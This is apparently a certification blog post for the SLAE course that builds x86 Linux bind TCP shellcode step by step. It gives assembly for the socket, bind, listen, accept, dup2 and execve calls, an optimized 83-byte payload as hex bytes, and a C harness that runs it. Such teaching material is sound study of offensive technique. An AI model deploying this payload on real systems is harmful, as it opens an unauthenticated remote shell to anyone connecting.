


# Assignment #1 - Shellcode for a Bind TCP Shell 

**Exercise description:** Creating shellcode for running a TCP bind shell. The solution must allow to configure the binding port number easily, and the shellcode must execute a shell on an incoming connection.

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

In order to create a TCP bind shell, it is necessary to achieve the following sub-tasks:

1. Generating a TCP socket
2. Binding the socket to a local port
3. Starting listening for incoming connections
4. Accepting an incoming connection
5. Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
6. Spawning the shell

## Generating a TCP socket

To understand how to make a socket call is good to know how it is represented on C code. 

The following C code will open a socket and return *-1* in case there is any error on the operation.

````
#include <stdio.h>
#include <sys/socket.h>

int main()
{
  int fd;

  fd = socket(AF_INET, SOCK_STREAM, 0);
  if(fd == -1)
  {
      printf("Error opening socket\n");
      return -1;
  }
}
````
``socket creation on C language``

Analyzing the main function of this code on a disassembler like GDB, is possible to identify the call to the socket function.


``Previous code disassembled``

But, what are these instructions for? And why there is a call to *socket*? 

The socket function allows any program to create an endpoint for communication and returns a descriptor (*fd*). By reading the *man* page of *socket* is possible to identify that any call to this function must contain three parameters:

1. int domain
2. int type
3. int protocol



``man socket``

### *int domain*

This variable must contain the protocol family used for the communication. In this case, **AF_INET**.

Reading the documentation found on *socket.h*  is possible to identify that the value of **AF_INET** is **2**.


`/usr/src/linux-headers-3.2.0-126/include/linux/socket.h`

Which would explain the following `mov` instruction on the debugger.


``mov instruction to configure the socket for AF_INET address family`` 

### *int type*

The *type* variable specifies the semmantic used for the communication. As in this case the communication will use the TCP semmantic, this variable should be **SOCK_STREAM**.

Reading the documentation found on *socket.h* is possible to identify that the value of **SOCK_STREAM** is **1**.


``/usr/include/i386-linux-gnu/bits/socket.h``

Which would explain the following `mov` instruction on the debugger.


``mov instruction to configure the socket for using TCP semmantic``

### *int protocol*

As socket's *man* page specifies, this variable is usually **0**. The reason for this value is that normally one socket is used to communicate using just one protocol, hence this value must be set to **0**.


``man socket``

Which would explain the following `mov` instruction on the debugger.


``mov instruction to configure the socket for using just one protocol``

After the arguments for creating a socket have been declared, it is necessary to know how to call the function that creates a socket, which is *sys_socketcall*.

There is a [place](http://www.skyfree.org/linux/kernel_network/socket.html) that enumerates how to call the *sys_socketcall* function. Long story short, *sys_socketcall* receives two parameters:

1. An *integer* specifying the action required (create, bind, connect, etc.), which in this case is *1* for *SYS_SOCKET = "create socket"*
2. A list of arguments, which in this case are the options for creating the socket (*AF_INET,SOCK_STREAM,0*)


``sys_socketcall structure``

This way, the assembly code for this part of the bind TCP shell would be:

```
; Creating a TCP socket

xor eax,eax             ;zeroed eax
mov ebx,eax             ;zeroed ebx
mov ecx,eax             ;zeored ecx
; socket call requires socket(AF_INET,SOCK_STREAM,0)
push eax                ;set socket.protocol = 0
push 1                  ;set socket.type = 1 = SOCK_STREAM
push 2                  ;set socket.domain = 2 = AF_INET
; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
mov ecx,esp             ;loads the arguments on ecx
inc ebx                 ;ebx is 0x1 to declare SYS_SOCKET function on sys_socketcall
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call to sys_socketcall
mov edi,eax             ;stores the file descriptor (fd) on edi
```
``Assembly code for creating a TCP socket``

Debugging the execution of this code is possible to determine the file descriptor assigned to the current socket.


``Debugging the file descriptor associated to the socket``

## Binding the socket to a local port

To bind the socket created to an specific port, there is an option on the *net.h* file that refers to a *bind()* function. The protocol number for **SYS_BIND** on *sys_socketcall* is **2**.


``/usr/include/linux/net.h``

As *sys_socketcall* receives two parameters (call & args), the *man* page for *bind* contains the information needed to figure out what should be loaded on *ECX* as arguments.


``man bind``

The three arguments needed are the following:

1. sockfd
2. *addr
3. addrlen

### *sockfd*

This argument is already controlled and can be satisified with no issue, so there is no need to explain it. After the socket creation, should be stored on both *EAX* and *EDI*.

### **addr*

The pointer to a *sockaddr* structure is a bit complex. Basically, in the *man* page for *ip* is possible to gather the information needed to satisfy this parameter.


``man 7 ip``

* AF_INET = 2
* PORT = 0x22B8 --> 8888 (will be set as a label on data section to easy the configuration)
* INTERNET ADDRESS = 0 --> INADDR_ANY

    *  
    ``man 7 ip``
    
    *  
    
    ``/usr/include/linux/in.h``

The way to provide a structure of variables is by *feeding* the stack with these variables and then saving *ESP* on a register.

### *addrlen*

For IPv4 addresses, the address length will be always 16 bytes because an IPv4 address is composed by 4 fields of 4 bytes each one (4 fields x 4 bytes = 16 bytes).


``/usr/include/linux/in.h``

Using this information, it is possible to generate the assembly code to bind the socket to an specific port.

````
; Binding the TCP socket
inc ebx                 ;ebx now is 0x2 to declare SYS_BIND function on sys_socketcall
    ;*addr section
push edx                ;INADDR_ANY = 0
mov si,0xb822          ;loads the variable port on SI register
push esi                ;PORT in htons = 8888
push bx                 ;AF_INET = 2
mov ecx,esp             ;saves the pointer of addr on ecx
    ;now, store "sockfd,*addr,addrlen on ecx
push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
push ecx                ;loads the memory location of addr struct
push edi                ;loads the fd
mov ecx, esp
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call
````
``Assembly code for binding a TCP socket to an specific port``

## Starting listening for incoming connections

Next step will be to listen for incoming connections, using *call* *4*. 



``/usr/include/linux/net.h``

The *man* page for *listen* specifies the structure of the call *listen(int sockfd, int backlog)*.

As *sockfd* is already stored on *EDI*, the only question left is: what value should be assigned to the *backlog* variable?


``man listen``

Searching for *backlog* and *sockets* on the Internet is possible to [identify](http://pubs.opengroup.org/onlinepubs/009695399/functions/listen.html) that a value of 0 may allow the socket to accept connections using a minimum queue value.

````
; Starting listening for incoming connections
add ebx, 2              ;ebx now is 0x4 to declare SYS_LISTEN function on sys_socketcall
push edx                ;backlog = 0
push edi                ;loads the fd
mov ecx,esp             ;loads the arguments on ecx
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80
````

``Assembly code for a socket to start listening for incoming connections``

Using *GDB* and adding a breakpoint after this syscall, is possible to check that the TCP socket is created and listening on port 8888.


``Debugging listening syscall``


``Veryfing that the socket is listening on the specified port``

## Accepting an incoming connection

The syscall number to accept an incoming connection is *5* for *SYS_ACCEPT*. The *man* page for *accept* states that it is necessary to pass a structure.


``man 2 accept``

However, it is possible to set *addr and *addrlen to NULL.

> When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
> 
``Third paragraph of man 2 accept``

This way, the code for this section could be the following:
````
; Accepting an incoming connection
inc ebx                 ;ebx now is 0x5 to declare SYS_ACCEPT function on sys_socketcall
push edx                ;addrlen not needed
push edx                ;addr will be null as no need to know about the client
push edi                ;loads the fd
mov ecx,esp             ;loads the arguments on ecx
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80
````
``Assembly code for a socket to accept an incoming connection``

After executing the code the application hangs until there is an incoming connection.


``Debugging the accept function``

Port 8888 is open and listening.


``State of active connections on server side``

When an incoming connection occurs, the application will continue its execution.


``The program accepts an incoming connection``

## Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client

Although now is possible to hook the connection to a port, it is necessary to redirect all I/O through that port. ***dup2()*** is the solution to this challenge.

Basically, *dup2()* will clone a file descriptor, and both file descriptors will point to the same entry in the *global file table*. This table is like a registry for keeping note of the files opened by each process to ensure that if two processes execute *open()* on the same file, they will both read this file at their own pace. So, when a process executes *dup2()* to duplicate a file descriptor, its cloned file descriptor will access the same file opened by the original file descriptor, and both file descriptors will *collaborate* into interacting with a file.


``man dup``

Pankaj Pal explains this functionality in depth [here](http://edusagar.com/articles/view/25/IO-redirection-using-dup-system-call).

Then, *dup2()* needs the following parameters:

* oldfd: which will be the returned file descriptor by the *accept()* function
* newfd: which will be pointed to each stream (stdin/stdout/stderr)


``sys_dup2 structure``

The code for this section is as follows:
````
; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
mov ebx,eax             ;saves the oldfd on ebx
mov ecx,edx             ;sets newfd to 0 for stdin
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,0) for redirect stdin
inc ecx                 ;sets newfd to 1 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,1) for redirect stdin
inc ecx                 ;sets newfd to 2 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,2) for redirect stdin
````
``Assembly code for redirecting any I/O through the socket``

## Spawning the shell

The function that executes a program is *Excve()*. In this case a shell (*'/bin/sh'*). 

The arguments needed by this function are the following:

* *filename
* argv[]
* envp[]


``man execve``

However, as it is possible to set *argv[]* and *envp[]* to *NULL* without loosing the capability of running a shell, this article just explains how to configure the **filename* argument.

The code for this section is as follows:

````
; Executing a shell
push edx                ;loads NULL terminator
push long 0x68732f2f    ;loads 'hs//'
push long 0x6e69622f    ;loads 'nib/'
mov ebx,esp             ;saves the pointer to '/bin//sh'
mov ecx,edx             ;loads NULL and edx still contains NULL
mov al,0x0b             ;configures eax for syscall - execve
int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Assembly code for executing a shell``

## Improving the Size 
Right now, shellcode's size is **103** bytes. However, it is possible to optimize this size by grouping similar parts of code in functions that will be called multiple times, and by tricking some parts to save space.

This way, the optimized code size is **83** bytes and the code is the following.

````
; Filename:   shell_bind_tcp.nasm
; Author:     Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       83 bytes
; Purpose:    Assignment #1 of SLAE certification. This shellcode creates a bind tcp shell.

global _start			

section .text
_start:
	; Creating a TCP socket
	cdq			;doubles eax and stores result on eax & edx (0)
	; socket call requires socket(AF_INET,SOCK_STREAM,0)
	push edx		;sets socket.protocol = 0
	push 0x1
	pop ebx			;ebx now is 0x1 to declare SYS_SOCKET function on sys_socketcall
	push ebx		;sets socket.type = 1 = SOCK_STREAM
	push 2			;sets socket.domain = 2 = AF_INET
	; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
	push 0x66		
	pop eax			;defines syscall as sys_socketcall(number,args)
	mov ecx,esp		;loads the arguments on ecx
	int 0x80

	; Binding the TCP socket
	inc ebx                 ;ebx now is 0x2 to declare SYS_BIND function on sys_socketcall
	    ;*addr section
	push edx                ;INADDR_ANY = 0
	mov si,0xb822           ;loads the variable port on SI register
	push esi                ;PORT in htons = 8888
	push bx                 ;AF_INET = 2
	mov ecx,esp             ;saves the pointer of addr on ecx
	    ;now, store "sockfd,*addr,addrlen on ecx
	push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
	push ecx                ;loads the memory location of addr struct
	push eax                ;loads the fd
	mov ecx, esp
	pop edi			;saves the fd
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80                ;executes the call

	; Starting listening for incoming connections
	inc ebx			;is more efficient two "inc" than "add ebx,2"
	inc ebx			;ebx now is 0x4 to declare SYS_LISTEN function on sys_socketcall
	push edx                ;this null push is for next function, does not harm this, but does a trick to optmize code :)
	push edx                ;backlog = 0
	push edi                ;loads the fd
	mov ecx,esp             ;loads the arguments on ecx
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80

	; Accepting an incoming connection
	inc ebx                 ;ebx now is 0x5 to declare SYS_ACCEPT function on sys_socketcall
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80

	; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
	mov ebx,eax             ;saves the oldfd on ebx
	xor ecx,ecx		;zeroed ecx
	mov cl,0x03		;sets newfd to 3 for looping through stdout,stdin,stderr
Redirection:
	dec ecx			;decrements by 1 ecx to pass through stdout,stdin,stderr
        mov al,0x3f             ;syscall number for sys_dup2
        int 0x80                ;executes dup2(oldfd,$ecx) for redirect stdout,stdin,stderr
	jnz Redirection		;repeats this process until zero flag is set

	; Executing a shell
	push edx                ;loads NULL terminator
	push long 0x68732f2f    ;loads 'hs//'
	push long 0x6e69622f    ;loads 'nib/'
	mov ebx,esp             ;saves the pointer to '/bin//sh'
	;ecx & edx still contain NULL
	mov al,0x0b             ;configures eax for syscall - execve
	int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Optimized code for Bind TCP Shell (83 bytes)``

## Executing the Code

To compile the NASM file with the bind TCP shell code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh shell_bind_tcp

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, the following command will extract the shellcode from the binary: ``objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

To verify the shellcode the following C code is used, including a variable that can be set to any port number in *little-endian* format to easy the port configuration.
````
#include<stdio.h>
#include<string.h>

#define PORT_NUMBER "\x22\xB8" // 8888

unsigned char code[] = \
"\x99\x52\x6a\x01\x5b\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x43\x52\x66\xbe"
PORT_NUMBER
"\x56\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\x5f\xb0\x66\xcd\x80\x43\x43\x52"
"\x52\x57\x89\xe1\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb1\x03"
"\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"
"\xe3\xb0\x0b\xcd\x80";


main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Now the shellcode can be tested.


``Shellcode execution``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
